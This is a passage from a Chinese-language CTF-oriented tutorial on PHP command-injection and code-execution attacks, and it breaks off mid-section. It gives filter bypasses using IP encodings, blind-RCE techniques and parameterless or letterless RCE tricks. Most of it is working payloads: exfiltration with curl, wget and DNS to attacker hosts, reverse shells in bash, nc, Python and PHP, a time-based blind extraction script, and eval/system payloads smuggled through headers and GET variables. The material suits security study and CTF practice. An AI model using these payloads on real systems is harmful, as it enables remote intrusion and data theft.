```

#### 1.4.5.5 八进制写法

```bash
# 将每段转换为八进制
# 127 → 0177, 0 → 00, 0 → 00, 1 → 01
ping 0177.0.0.1
# 解析为 ping 127.0.0.1
```

#### 1.4.5.6 IPv6 本地地址

```bash
# IPv6 回环地址，指向本机
ping ::1
# 等价于 ping 127.0.0.1（IPv6 层面）
```

#### 1.4.5.7 域名解析绕过

```bash
# 用域名代替 IP，如果后端只检查"必须像 IP 地址"
# 但域名没被过滤
ping localhost
# 解析为 127.0.0.1

# 其他指向本机的域名
ping localhost.localdomain
ping localhost6
```

#### 1.4.5.8 IP 变形完整对照表

| 编号 | 形式 | 示例 | 对应 IP | 绕过难度 |
|------|------|------|---------|----------|
| 1 | IPv4 短写 | `127.1` | 127.0.0.1 | 低 |
| 2 | 十进制整数 | `2130706433` | 127.0.0.1 | 低 |
| 3 | 零 | `0` | 0.0.0.0 | 中（语义不同） |
| 4 | 十六进制 | `0x7f000001` | 127.0.0.1 | 低 |
| 5 | 八进制 | `0177.0.0.1` | 127.0.0.1 | 中 |
| 6 | IPv6 | `::1` | 127.0.0.1 | 低 |
| 7 | 域名 | `localhost` | 127.0.0.1 | 低（前提域名不被过滤） |

**新手避坑 11：** IP 变形不是"一定生效"的。以下情况会失效：

1. 后端使用严格的 PHP `filter_var($ip, FILTER_VALIDATE_IP)` 校验，非标准格式直接拒绝
2. 后端使用 `inet_pton()` 转换，只接受标准点分十进制或 IPv6 格式
3. 后端先做了正则提取 IP 部分，再拼接到命令中
4. 系统级限制（如某些精简容器不支持特殊格式）

所以遇到 IP 变形时，先试 `127.0.0.1` 和 `localhost`，不行再逐一尝试变形。

---

## 1.5 无回显 RCE 实战策略

### 1.5.1 场景总览

**场景：**你传了命令，服务器也执行了，但页面上什么都没有。无回显 RCE 是最考验经验的场景——你看不到命令结果，但必须想办法把结果"拿"出来。

**无回显的四种成因：**



**无回显应对策略总览：**

| 策略 | 适用条件 | 数据通道 | 速度 | 隐蔽性 |
|------|----------|----------|------|--------|
| 延时确认 | 任何场景 | 响应时间 | 极快 | 高 |
| 写文件 + 读取 | Web 目录可写 | HTTP | 快 | 中 |
| HTTP 外带 | 目标可出网 | HTTP | 中 | 低 |
| DNSLOG 外带 | DNS 可出网 | DNS | 慢 | 高 |
| 反弹 Shell | 目标可出网 | TCP | 交互式 | 低 |
| 时间盲注 | 完全无通道 | 响应时间 | 极慢 | 高 |

---

### 1.5.2 第一步：确认命令是否执行

**场景：**不能确定命令有没有执行的情况下，先做"心跳测试"。

#### Linux 延时测试

```bash
# 请求：/rce.php?cmd=sleep 5
# 如果页面 5 秒后才响应 → 命令执行成功
# 如果立刻响应 → 命令可能没执行，或执行点不对

# 可变延时（用于多次确认）
cmd=sleep 3
cmd=sleep 10
```

#### Windows 延时测试

```bash
# Windows 没有 sleep 命令，用 ping 模拟延时
# 请求：/rce.php?cmd=ping -n 5 127.0.0.1
# -n 5 表示 ping 5 次，约 4-5 秒

# Timeout 命令（Windows Vista+）
cmd=timeout 5
```

#### Combination 测试

```bash
# 延时 + 分隔符（用于 ping 注入场景）
target_ip=127.0.0.1;sleep 5
target_ip=127.0.0.1&&sleep 5
target_ip=127.0.0.1|sleep 5

# 代码执行场景
code=system('sleep 5');
code=sleep(5);
```

---

### 1.5.3 后端没有输出结果

**场景：**函数本身不回显。例如后端代码：

```php
# 用户输入被传入 shell_exec，但没有 echo
shell_exec($_GET['cmd']);
```

`shell_exec()` 执行命令并返回字符串，但如果不捕获或输出，页面什么也不显示。

**解决方案：**

**方案一：利用代码执行场景主动输出（如果入口是 eval）**

```php
# 入口是 eval() 时，直接在代码中加 echo
code=echo+shell_exec('cat+/etc/hostname');
code=print_r(exec('id',+$out));
```

**方案二：写入文件**

```bash
# 将结果写入 Web 目录
cmd=hostname > /var/www/html/result.txt
```

**方案三：外带数据**

```bash
# 用 curl 或 wget 发出包含结果的外带请求
cmd=curl http://attacker.com/$(hostname)
```

**新手避坑 12：** 很多人遇到无回显就疯狂试各种分隔符，其实分隔符解决的是"命令被截断"问题，而不是"函数本身不回显"问题。根本解决方案要看后端代码——如果用的是 `exec()` 没加 `echo`，你加再多分隔符也看不到输出，应该考虑写文件或外带。

---

### 1.5.4 输出被重定向丢弃

**场景：**后端代码在拼接用户输入后，又拼接了丢弃输出的重定向：

```php
# 后端拼接了 >/dev/null 2>&1
system($_GET['cmd'] . " >/dev/null 2>&1");
```

**原理：**`>/dev/null` 将标准输出重定向到空设备（丢弃），`2>&1` 将标准错误也重定向到标准输出（也被丢弃）。所以所有命令输出都被吞掉了。

#### 绕过方法一：命令分隔

```bash
# 用分号结束前面的命令，让后面的重定向失效
cmd=cat /flag;
# 实际执行：cat /flag; >/dev/null 2>&1
# 分号使 cat /flag 作为一个独立命令执行完毕

# 用换行
cmd=cat /flag%0a
# 换行使 cat /flag 成为一个独立命令

# 用 &&
cmd=cat /flag&&
# 注意：&& 依赖后面拼接的内容不破坏语法
```

#### 绕过方法二：注释丢弃

```bash
# 用 # 注释掉后面的重定向
cmd=cat /flag #
# 实际执行：cat /flag # >/dev/null 2>&1
# # 注释了后面所有内容

# 注意 # 前最好有空格
cmd=cat /flag+#
```

#### 绕过方法三：写文件（双重重定向不受影响）

```bash
# 自己指定输出文件，覆盖后面的 /dev/null
cmd=cat /flag > /var/www/html/out.txt #
```

#### 绕过方法四：利用标准错误

```bash
# 如果只丢弃了 stdout，可以试试让命令输出到 stderr
cmd=cat /flag >&2
# 将 stdout 重定向到 stderr，如果后端没丢弃 stderr 就能看到
```

---

### 1.5.5 写入 Web 目录

**场景：**无回显但确认命令执行，且有 Web 可写目录。

**原理：**将命令执行结果写入到 Web 服务能访问的文件中，然后通过浏览器访问该文件查看结果。

#### 方法一：直接重定向写入

```bash
# 写入结果到 Web 目录
cmd=cat /flag > /var/www/html/out.txt

# 然后浏览器访问：
# http://target.com/out.txt
```

#### 方法二：追加写入（分步获取）

```bash
# 先清空再写第一条
cmd=echo "=== step1 ===" > /var/www/html/log.txt
cmd=hostname >> /var/www/html/log.txt
cmd=whoami >> /var/www/html/log.txt
cmd=cat /flag >> /var/www/html/log.txt
```

#### 方法三：用 PHP 脚本写入

```bash
# 如果是代码执行，可以写一个文件来外带结果
code=file_put_contents('/var/www/html/flag.txt',+file_get_contents('/flag'));
```

#### 方法四：用 tee 命令同时写入

```bash
cmd=cat /flag | tee /var/www/html/result.txt
# tee 进入管道的同时写入文件
```

#### 常见 Web 目录速查

| 环境 | 常见 Web 目录 |
|------|-------------|
| Apache (Debian/Ubuntu) | `/var/www/html/` |
| Apache (CentOS/RHEL) | `/var/www/html/` |
| Nginx + PHP-FPM | `/var/www/html/`、`/usr/share/nginx/html/` |
| Docker 默认 | `/var/www/html/`、`/app/` |
| Tomcat | `/usr/local/tomcat/webapps/ROOT/` |
| Python Flask | `./static/`、`./templates/` |

**新手避坑 13：** 写入 Web 目录必须同时满足三个条件：目录存在、Web 服务能访问该目录、当前用户有写入权限。如果写不进去，可以先用 `ls -la /var/www/html/` 检查目录权限。另外注意写入的文件名不要与已有文件冲突，且文件后缀最好是 `.txt` 或 `.html` 而不是 `.php`（除非你想执行）。

---

### 1.5.6 HTTP 外带

**场景：**目标服务器可以出网（访问互联网），你有一个 VPS 或公网服务器。

**原理：**让目标服务器主动向我们控制的服务器发起 HTTP 请求，将命令执行结果编码到 URL 或请求头中。我们通过查看 VPS 的访问日志来获取数据。

#### Step 1：在 VPS 上监听

```bash
# VPS 终端执行
python3 -m http.server 9999

# 或者用 nc 监听原始请求
nc -lvnp 9999

# 更专业的监听（推荐用 PHP 或 Python 记录日志）
```

#### Step 2：在目标上发起外带请求

```bash
# 最简单的——将结果放在 URL 路径中
cmd=curl http://你的VPS:9999/$(whoami)

# 外带 flag（先 base64 防止特殊字符干扰 URL）
cmd=curl http://你的VPS:9999/$(cat /flag | base64 -w0)

# 用 wget 代替 curl
cmd=wget http://你的VPS:9999/$(hostname)

# POST 方式外带（数据放在请求体中）
cmd=curl -X POST --data "$(cat /flag)" http://你的VPS:9999/
```

#### Step 3：查看 VPS 日志

```bash
# Python http.server 的日志会直接打印在终端
# 或者查看访问日志文件
tail -f /var/log/nginx/access.log
```

**HTTP 外带的格式处理：**

```bash
# 换行符影响 URL 时，用 base64
cmd=curl http://VPS/$(cat /flag | base64 -w0)

# 或者用 xxd 转十六进制
cmd=curl http://VPS/$(cat /flag | xxd -p | tr -d '\n')
```

---

### 1.5.7 DNSLOG 外带

**场景：**HTTP 协议可能被防火墙阻断，但 DNS 查询通常允许出网。

**原理：**将命令执行结果作为子域名前缀拼接到你的 DNSLOG 域名上，目标服务器解析这个域名时会触发 DNS 查询，DNSLOG 平台记录下查询中的子域名数据。

#### Step 1：准备 DNSLOG 平台

```bash
# 推荐平台（免费）：
# - dnlog.cn
# - burpcollaborator.net（Burp Suite）
# - interactsh.com（Project Discovery）
# - ceye.io

# 获取一个专属域名，例如：xxxx.ceye.io
```

#### Step 2：测试 DNS 是否可出网

```bash
# Ping 你的 DNSLOG 域名
cmd=ping -c 1 test.xxxx.ceye.io

# 等几秒，查看 DNSLOG 平台是否收到记录
# 如果收到 → DNS 出网正常
```

#### Step 3：外带命令结果

```bash
# 外带 whoami
cmd=ping -c 1 $(whoami).xxxx.ceye.io

# 外带 flag（需要处理特殊字符）
# 建议十六进制编码
cmd=ping -c 1 $(xxd -p -c 50 /flag).xxxx.ceye.io

# 分段外带长数据
cmd=for i in $(xxd -p -c 30 /flag);do ping -c 1 $i.xxxx.ceye.io;done
```

#### Step 4：还原数据

```bash
# 从 DNSLOG 平台收集到的十六进制片段
# 本地合并并还原
echo "666c61677b746573745f666c61677d" | xxd -r -p
# 输出：flag{test_flag}
```

**新手避坑 14：** DNS 域名有长度限制（最多 253 个字符，每段不超过 63 个字符），所以长数据必须分段。另外域名只允许字母、数字、连字符和点号，不能包含空格或特殊字符，所以建议始终用十六进制或 base64 编码后再外带。

---

### 1.5.8 反弹 Shell

**场景：**获得一个交互式 Shell，可以连续执行多条命令。

**原理：**让目标服务器主动连接你的 VPS 上的监听端口，并绑定 Shell 的标准输入输出到网络连接上。

#### Step 1：VPS 开启监听

```bash
# 经典 nc 监听
nc -lvnp 4444

# 监听到连接后，就可以输入命令并看到输出了
```

#### Step 2：目标上执行反弹命令

```bash
# Bash 反弹（最经典）
cmd=bash -c 'bash -i >& /dev/tcp/你的VPS_IP/4444 0>&1'

# nc 反弹（需要支持 -e 的版本）
cmd=nc -e /bin/bash 你的VPS_IP 4444

# Python 反弹
cmd=python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("你的VPS_IP",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'

# PHP 反弹
cmd=php -r '$s=socket_create(AF_INET,SOCK_STREAM,SOL_TCP);socket_connect($s,"你的VPS_IP",4444);shell_exec("/bin/bash -i <&3 >&3 2>&3");'
```

#### 反弹 Shell 对比表

| 方式 | 命令长度 | 依赖 | 稳定性 | 交互性 |
|------|---------|------|--------|--------|
| Bash `/dev/tcp` | 短 | Bash 编译时开启 `/dev/tcp` | 高 | 好 |
| `nc -e` | 短 | nc 带 -e 选项（少见） | 高 | 好 |
| Python | 中 | Python 环境 | 中 | 好（pty） |
| PHP | 中 | PHP 启用了 socket 扩展 | 中 | 一般 |
| Perl | 中 | Perl 环境 | 中 | 一般 |
| OpenSSL | 长 | OpenSSL 客户端 | 高 | 加密传输 |

---

### 1.5.9 时间盲注

**场景：**没有回显、不能写文件、不能出网——所有通道都被封堵。时间盲注是最后的"万能钥匙"。

**原理：**利用条件判断结合延时命令，通过服务器响应时间差异逐位推断文件内容。虽然极慢，但在绝对无通道的情况下依然有效。

#### 基础语法

```bash
# Linux 版本：if 条件 then sleep
cmd=if [ "$(cut -c 1 /flag)" = "f" ];then sleep 3;fi
# 如果 /flag 的第一个字符是 'f'，则延迟 3 秒

# 等价写法（test 命令）
cmd=test "$(cut -c 1 /flag)" = "f" && sleep 3
```

#### 逐位爆破

```bash
# 爆破第 1 个字符
cmd=test "$(cut -c 1 /flag)" = "f" && sleep 3

# 爆破第 2 个字符
cmd=test "$(cut -c 2 /flag)" = "l" && sleep 3

# 爆破第 3 个字符
cmd=test "$(cut -c 3 /flag)" = "a" && sleep 3

# 一般 flag 格式：flag{...}
# 已知前 5 个字符是 "flag{"，从第 6 个开始爆破
cmd=test "$(cut -c 6 /flag)" = "a" && sleep 3
```

#### 字符串包含判断

```bash
# 判断 flag 中是否包含某个子串
cmd=grep -q "secret" /flag && sleep 5

# 判断 flag 长度
cmd=test "$(wc -c < /flag)" -gt 30 && sleep 5
```

#### Python 自动化脚本模板

```python
import requests
import string

URL = "http://target.com/rce.php"
CHARSET = string.ascii_lowercase + string.digits + "_{}"
FLAG = ""
POSITION = 1

while True:
    found = False
    for ch in CHARSET:
        payload = f'test "$(cut -c {POSITION} /flag)" = "{ch}" && sleep 2'
        try:
            r = requests.get(URL, params={"cmd": payload}, timeout=1.5)
            # 如果请求超时（>1.5s），说明条件为真
        except requests.Timeout:
            FLAG += ch
            print(f"Found: {FLAG}")
            found = True
            break
    if not found or ch == "}":
        break
    POSITION += 1

print(f"Final flag: {FLAG}")
```

**新手避坑 15：** 时间盲注的陷阱在于网络延迟不稳定。如果目标网络本身就有波动，可能误判。建议：

1. 每次用同一个延时（如 3 秒），不要混用不同时长
2. 延迟时间要明显大于正常响应时间（建议目标延迟 2-3 倍于正常响应时间）
3. 每个位置测试两轮，取一致结果
4. 加一个初始探测：先确定明确为真的条件（如 `test 1 = 1 && sleep 3`）确认方法有效

---

### 1.5.10 无回显策略对比总表

| 策略 | 适用条件 | 是否需要公网 VPS | 速度 | 是否可获取完整内容 | 隐蔽性 |
|------|----------|-----------------|------|-------------------|--------|
| 写文件 + 访问 | Web 目录可写 | 不需要 | 快 | 是 | 中 |
| HTTP 外带 | 目标可出网 | 需要 | 中 | 需编码 | 低 |
| DNSLOG 外带 | DNS 可出网 | 需要（DNSLOG 平台） | 慢 | 需分段编码 | 高 |
| 反弹 Shell | 目标可出网 | 需要 | 交互式 | 是 | 低 |
| 时间盲注 | 任何条件 | 不需要 | 极慢 | 逐位确定 | 极高 |
| 错误日志推断 | 可触发错误日志 | 不需要 | 慢 | 条件依赖 | 高 |

---

## 1.6 无参数 RCE

### 1.6.1 场景与特征

**场景：**存在 `eval($_GET['code'])` 等代码执行入口，但正则限制了你不能使用引号、逗号、数字等常规参数。只能使用"函数名+括号"的形式。

**典型源码特征：**

```php
# 特征 1：存在代码执行入口
eval($_GET['exploit']);

# 特征 2：正则限制（只允许函数名+括号）
preg_match('/^[a-z_]+\((?R)?\)$/', $exploit);
# 这个正则匹配的是类似 phpinfo()、scandir(getcwd()) 的形式

# 特征 3：禁用了引号、数字、逗号
# 不能写 "system('id')"
# 不能写 $_GET['cmd']
# 不能写 scandir('.')
```

**适用判断：**

```
你的输入有以下限制吗？
├── 不能写引号 → 可能是无参数 RCE 场景
├── 不能写逗号 → 同上
├── 不能写数字 → 同上
├── 不能写变量 $ → 同上（部分变种）
└── 只能写函数 → 确定是无参数 RCE
```

---

### 1.6.2 核心函数分类体系

**原理：**无参数 RCE 的核心思想是"让 PHP 内置函数自己生成需要的参数"。你不能直接写 `.`，但可以用 `current(localeconv())` 来获取 `.`；你不能直接写目录名，但可以用 `getcwd()` 获取。

#### 第一类：路径与目录生成函数

| 函数 | 作用 | 返回值示例 |
|------|------|-----------|
| `getcwd()` | 获取当前工作目录 | `/var/www/html` |
| `dirname()` | 获取上级目录路径 | `/var/www` |
| `chdir()` | 改变当前工作目录 | `true`/`false` |
| `scandir()` | 扫描目录返回文件名数组 | `['.', '..', 'index.php']` |
| `localeconv()` | 返回本地化信息数组 | `['decimal_point' => '.', ...]` |
| `pos()` / `current()` | 取数组第一个元素 | `.`（从 localeconv 取出） |

#### 第二类：数组与指针操作函数

| 函数 | 作用 | 典型使用场景 |
|------|------|-------------|
| `current()` | 取数组当前指针元素 | 取 `.` 或文件名 |
| `pos()` | current() 的别名 | 同上 |
| `end()` | 取数组最后一个元素 | 取 `scandir` 结果的最后文件 |
| `next()` | 指针后移一位 | 取 `scandir` 结果的第二个文件 |
| `prev()` | 指针前移一位 | 逆序定位 |
| `reset()` | 指针重置到开头 | 复位数组指针 |
| `array_reverse()` | 反转数组 | 配合 `current` 取原数组末尾 |
| `array_slice()` | 截取数组片段 | 精确按索引定位 |
| `array_flip()` | 交换键值 | 配合 `array_rand` |
| `array_rand()` | 随机取键名 | 随机读取文件 |
| `array_pop()` | 弹出数组末元素 | 从外部变量数组取值 |

#### 第三类：文件读取与输出函数

| 函数 | 作用 | 适用文件 |
|------|------|----------|
| `readfile()` | 读取并输出文件 | 普通文本文件 |
| `show_source()` | 高亮读取 PHP 文件 | PHP 源码 |
| `highlight_file()` | show_source 的别名 | PHP 源码 |
| `file_get_contents()` | 读取为字符串 | 任意文件（需配合输出函数） |
| `file()` | 读取为数组 | 任意文件（需配合输出函数） |
| `readgzfile()` | 读取 gzip 文件 | 压缩文件 |
| `print_r()` / `var_dump()` / `var_export()` | 输出数组/变量 | 调试输出 |

#### 第四类：请求上下文取值函数

| 函数 | 作用 | 获取的数据源 |
|------|------|-------------|
| `getallheaders()` | 获取全部 HTTP 请求头 | HTTP Headers |
| `get_defined_vars()` | 获取当前作用域的全部变量 | GET/POST/Cookie 等 |
| `session_id()` | 获取当前会话 ID | Cookie 中的 PHPSESSID |
| `getenv()` | 获取环境变量 | 系统环境变量 |
| `phpinfo()` | 查看 PHP 配置 | 所有 PHP 信息 |

---

### 1.6.3 构造当前目录参数

**场景：**不能直接写 `'.'` 或 `'/'` 作为参数，需要"无中生有"地构造出当前目录符号。

#### 方法一：getcwd()

```php
# 利用 getcwd() 获取当前工作目录
# 返回值：/var/www/html
# 再传给 scandir() 扫描
var_dump(scandir(getcwd()));
# 输出当前目录的文件列表
```

#### 方法二：localeconv() + current()

```php
# localeconv() 返回数组：['decimal_point' => '.', 'thousands_sep' => ',', ...]
# current() 取出第一个元素，即 '.'
print_r(scandir(current(localeconv())));
# 等价于 scandir('.')
```

#### 方法三：chr(46)

```php
# chr(46) 根据 ASCII 码生成 '.' 字符
print_r(scandir(chr(46)));
# 注意：chr(46) 包含数字，如果数字也被过滤则不能用
```

#### 四种构造方式对比

| 方法 | Payload | 是否依赖数字 | 是否依赖特定扩展 |
|------|---------|-------------|-----------------|
| `getcwd()` | 完整路径 | 否 | 否 |
| `localeconv()` + `current()` | `.` | 否 | 否 |
| `pos(localeconv())` | `.` | 否 | 否 |
| `chr(46)` | `.` | **是**| 否 |

---

### 1.6.4 目录扫描技巧

**场景：**需要找到 flag 所在的文件。

#### 扫描当前目录

```php
# 基础扫描
print_r(scandir(getcwd()));

# 等价写法：
print_r(scandir(current(localeconv())));
print_r(scandir(pos(localeconv())));

# 不同输出格式：
var_dump(scandir(getcwd()));
var_export(scandir(getcwd()));
```

#### 扫描上级目录

```php
# 上一级
print_r(scandir(dirname(getcwd())));

# 上两级
print_r(scandir(dirname(dirname(getcwd()))));

# 上三级
print_r(scandir(dirname(dirname(dirname(getcwd())))));

# 一直往上到根目录
# 上 N 级就是嵌套 N 次 dirname()
```

#### 扫描结果示例

```php
# 假设当前目录结构：
# /var/www/html/
# ├── index.php
# ├── flag.php
# ├── config.php
# └── data.txt

# scandir(getcwd()) 返回：
# [0] => '.'
# [1] => '..'
# [2] => 'config.php'
# [3] => 'data.txt'
# [4] => 'flag.php'
# [5] => 'index.php'
```

---

### 1.6.5 读取目录中的文件

**场景：**已经通过目录扫描知道了文件名顺序，需要读取目标文件的内容。

#### 读取最后一个文件（常用技巧）

```php
# end() 直接取数组最后一个元素
readfile(end(scandir(getcwd())));

# 或者用 array_reverse 反转后取第一个
readfile(current(array_reverse(scandir(getcwd()))));

# PHP 源码高亮显示
show_source(end(scandir(getcwd())));
```

#### 读取倒数第 N 个文件

```php
# 倒数第 2 个：反转后 next()
readfile(next(array_reverse(scandir(getcwd()))));
show_source(next(array_reverse(scandir(getcwd()))));

# 倒数第 3 个：反转后 next() 两次
readfile(next(next(array_reverse(scandir(getcwd())))));

# 使用 array_slice 精确控制
# 倒数第 2 个
readfile(current(array_slice(array_reverse(scandir(getcwd())), 1)));
# 倒数第 3 个
readfile(current(array_slice(array_reverse(scandir(getcwd())), 2)));
```

#### 读取正数第 N 个文件

```php
# 正数第 2 个（跳过 '.' 即第 0 个）
readfile(next(scandir(getcwd())));

# 正数第 3 个
readfile(current(array_slice(scandir(getcwd()), 2)));

# 正数第 4 个
readfile(current(array_slice(scandir(getcwd()), 3)));
```

#### 切换目录后读取

```php
# 先切换到上级目录，再读取该目录下的文件
chdir(dirname(getcwd()));
readfile(current(array_reverse(scandir(getcwd()))));

# 连续切换两级
chdir(dirname(getcwd()));
chdir(dirname(getcwd()));
show_source(end(scandir(getcwd())));
```

#### 随机读取

```php
# 从当前目录随机选一个文件读取
readfile(array_rand(array_flip(scandir(getcwd()))));

# 不稳定，但适合目录文件少时的碰运气
```

**新手避坑 16：** `scandir()` 返回的数组通常包含 `.` 和 `..`，所以"正数第 2 个"不一定是你看到的第二个文件。文件名排序受地域设置和 PHP 版本影响，不同环境下 `[2]` 可能对应不同的文件。建议先 `print_r(scandir(...))` 看清楚顺序再决定用什么方式定位。

---

### 1.6.6 查看环境信息

**场景：**需要了解 PHP 配置、禁用函数、open_basedir 等信息。

```php
# 查看 PHP 完整配置
phpinfo();

# 查看环境变量（可能 flag 就在里面）
print_r(getenv());
print_r(getenv('FLAG'));
print_r(getenv('SECRET_KEY'));

# 查看已包含的文件
print_r(get_included_files());

# 查看所有 PHP 配置
print_r(ini_get_all());
```

**使用场景分析：**

| 函数 | 查看内容 | 典型利用价值 |
|------|---------|-------------|
| `phpinfo()` | 全部 PHP 信息 | 找到路径、禁用函数列表、open_basedir |
| `getenv()` | 环境变量 | flag 可能放在环境变量中 |
| `get_included_files()` | 已包含文件 | 发现有用的文件路径 |
| `ini_get_all()` | 所有 PHP 配置项 | 确认安全限制 |

---

### 1.6.7 外部变量注入 RCE

**场景：**纯粹从目录文件中找不到 flag（或者需要更灵活的命令执行），可以通过外部可控数据源（HTTP 头、GET/POST 参数、Cookie、Session）注入恶意代码或命令。

**原理：**`getallheaders()` 返回全部 HTTP 请求头的关联数组，`get_defined_vars()` 返回当前作用域所有变量（包括 GET、POST、Cookie、Server 等）。我们可以把这些外部数据当作参数的来源。

#### 1.6.7.1 从 HTTP Header 中取值

```php
# 第一步：先查看请求头的结构和顺序
print_r(getallheaders());
# 返回类似：
# Array (
#   [Host] => target.com
#   [User-Agent] => Mozilla/...
#   [Cmd] => cat /flag
#   ...
# )

# 第二步：利用 header 值执行命令
# 取最后一个 header 的值
system(end(getallheaders()));

# 取第一个 header 的值（反转后取第一个）
system(current(array_reverse(getallheaders())));

# 取第二个 header 的值
system(next(getallheaders()));

# 取指定 header 的值（eval 执行代码）
eval(end(getallheaders()));
```

**请求构造示例：**

```http
# 将恶意内容放在最后一个请求头中
GET /?exploit=eval(end(getallheaders())); HTTP/1.1
Host: target.com
User-Agent: Mozilla/5.0
X-Cmd: system('cat /flag');
#                                       ^^^^^^^^
#                             最后一个 header 的值被 eval 执行
```

#### 1.6.7.2 从 GET/POST 参数中取值

```php
# get_defined_vars() 的结构：
# Array (
#   [_GET] => Array ( [a] => test [b] => system('id') )
#   [_POST] => Array ( [x] => hello [y] => world )
#   [_COOKIE] => Array ( [PHPSESSID] => abc123 )
#   [_SERVER] => Array ( ... )
#   ...
# )

# 取当前（第一个）超全局数组的第 2 个值
## 即 GET 参数的第二个值
system(next(current(get_defined_vars())));

# 取当前超全局数组的最后一个值
system(end(current(get_defined_vars())));

# 取下一个（POST）超全局数组的最后一个值
system(end(next(get_defined_vars())));

# PHP 代码执行版
eval(end(next(get_defined_vars())));
```

**GET 参数利用示例：**

```http
# 恶意内容放在第二个 GET 参数中
GET /?exploit=eval(next(current(get_defined_vars())));&shell=system('cat+/flag');
#                                                       ^^^^^^^^^^^^^^^^^^^^^^^^
#                                               第二个 GET 参数的值被 eval 执行
```

**POST 参数利用示例：**

```http
# 恶意内容放在最后一个 POST 参数中
POST /?exploit=eval(end(next(get_defined_vars())));
Host: target.com
Content-Type: application/x-www-form-urlencoded

a=hello&b=world&payload=system('cat+/flag');
```

#### 1.6.7.3 从 Cookie / Session ID 中取值

```php
# 如果开启了 Session，PHPSESSID 可控
system(session_id());

# 请求构造：
# Cookie: PHPSESSID=whoami
```

**新手避坑 17：** `getallheaders()` 和 `get_defined_vars()` 返回的数组**顺序不固定**，受 PHP 版本和 SAPI 影响。直接硬编码 `end()` 或 `next()` 可能取到的不是你想要的数据。建议先打印结构查看，再用对应的指针函数取值。

例如先发请求 `?exploit=print_r(getallheaders());` 查看结构，再根据实际顺序调整。

---

### 1.6.8 无参数 RCE 函数速查总表

| 功能分类 | 函数 | 作用 | 典型用法 |
|---------|------|------|---------|
| 获取路径 | `getcwd()` | 当前目录 | `scandir(getcwd())` |
| 获取路径 | `dirname()` | 上级目录 | `scandir(dirname(getcwd()))` |
| 获取路径 | `chdir()` | 切换目录 | `chdir(dirname(getcwd()))` |
| 获取点号 | `localeconv()` + `current()` | 生成 `.` | `scandir(current(localeconv()))` |
| 获取点号 | `pos(localeconv())` | 同上 | 同上 |
| 获取点号 | `phpversion()` 等版本字符串 | 提取 `.` 字符 | 需要配合字符截取 |
| 目录操作 | `scandir()` | 扫描目录 | `print_r(scandir(getcwd()))` |
| 数组指针 | `current()` / `pos()` | 首元素 | `current(array_reverse(...))` |
| 数组指针 | `end()` | 末元素 | `end(scandir(...))` |
| 数组指针 | `next()` | 下一个 | `next(scandir(...))` |
| 数组指针 | `prev()` | 上一个 | `prev(scandir(...))` |
| 数组操作 | `array_reverse()` | 反转 | `current(array_reverse(...))` |
| 数组操作 | `array_slice()` | 截取 | `current(array_slice(..., N))` |
| 数组操作 | `array_flip()` | 键值互换 | `array_rand(array_flip(...))` |
| 数组操作 | `array_rand()` | 随机键 | `array_rand(array_flip(...))` |
| 数组操作 | `array_pop()` | 弹出末元素 | `array_pop(next(get_defined_vars()))` |
| 字符串 | `strrev()` | 字符串反转 | 反转文件名或路径 |
| 文件读取 | `readfile()` | 输出文件 | `readfile(end(scandir(...)))` |
| 文件读取 | `show_source()` | 高亮 PHP | `show_source(end(scandir(...)))` |
| 文件读取 | `highlight_file()` | 同上 | `highlight_file(...)` |
| 文件读取 | `file_get_contents()` | 读为字符串 | 需配合输出 |
| 文件读取 | `file()` | 读为数组 | 需配合输出 |
| 文件读取 | `readgzfile()` | 读 gz 文件 | 同上 |
| 输出调试 | `print_r()` | 打印数组 | `print_r(scandir(...))` |
| 输出调试 | `var_dump()` | 详细打印 | `var_dump(scandir(...))` |
| 输出调试 | `var_export()` | PHP 格式 | `var_export(scandir(...))` |
| 请求上下文 | `getallheaders()` | 全部请求头 | `system(end(getallheaders()))` |
| 请求上下文 | `get_defined_vars()` | 全部变量 | `eval(end(next(...)))` |
| 请求上下文 | `session_id()` | 会话 ID | `system(session_id())` |
| 环境信息 | `phpinfo()` | PHP 配置 | 直接查看 |
| 环境信息 | `getenv()` | 环境变量 | `print_r(getenv())` |
| 环境信息 | `get_included_files()` | 包含文件 | `print_r(...)` |
| 环境信息 | `ini_get_all()` | 配置项 | `print_r(ini_get_all())` |

---

## 1.7 无字母数字 RCE

### 1.7.1 场景分类

**场景：**已经有代码执行入口（通常是 `eval()`），但正则限制了输入只能使用非字母数字的符号。

**三种典型限制：**

| 限制类型 | 正则示例 | 允许的字符 | 核心思路 |
|---------|---------|-----------|---------|
| 无字母 | `/[a-z]/i` | 数字、标点、运算符 | 用八进制转义或按位运算构造字符串 |
| 无数字 | `/[0-9]/` | 字母、标点 | 用布尔值或字符串长度替代数字 |
| 无字母数字 | `/[a-z0-9]/i` | 纯标点 | 取反或异或构造字符串 |

**做题前的四个确认：**

```
1. 执行入口是什么？
   ├── eval() → PHP 代码，需构造完整的 PHP 语句
   └── system() → Shell 命令，可以使用通配符和环境变量

2. 正则匹配的对象是什么？
   ├── URL 解码后的 $_GET/$_POST → %xx 编码会被解码
   └── URL 解码前的原始字符串 → %xx 中的字母数字也可能被检测

3. 字符集和编码是什么？
   ├── UTF-8 → 高位字节可能被转码破坏
   └── 原生二进制 → 取反方式更稳定

4. 字符禁用的范围是什么？
   ├── 只禁用了字母 → 还有数字可用
   ├── 只禁用了数字 → 还有字母可用
   └── 字母数字都禁用 → 需要用标点构造
```

---

### 1.7.2 无字母 RCE（有数字可用）

**场景：**禁止大小写字母（`/[a-z]/i`），但数字、引号、反斜杠、美元符号等仍可用。

**典型源码：**

```php
$exploit = $_GET['exploit'] ?? '';
if (preg_match('/[a-z]/i', $exploit)) {
    die('No letters allowed!');
}
eval($exploit);
```

#### 方法一：八进制转义构造字符串

**原理：**PHP 双引号字符串中，`\` 后跟最多 3 位八进制数字表示该 ASCII 码对应的字符。

```php
# 双引号字符串中的八进制转义
"\163\171\163\164\145\155"
# PHP 解析后得到：system
```

**字符到八进制对照示例：**

| 目标字符 | ASCII 十进制 | 八进制表示 |
|---------|-------------|-----------|
| `s` | 115 | `\163` |
| `y` | 121 | `\171` |
| `t` | 116 | `\164` |
| `e` | 101 | `\145` |
| `m` | 109 | `\155` |
| `r` | 114 | `\162` |
| `d` | 100 | `\144` |
| `f` | 102 | `\146` |
| `l` | 108 | `\154` |
| `a` | 97 | `\141` |
| `g` | 103 | `\147` |
| `/` | 47 | `\057` |
| 空格 | 32 | `\040` |
| `c` | 99 | `\143` |

**构造完整 payload：**

```php
# 执行 system('cat /flag');
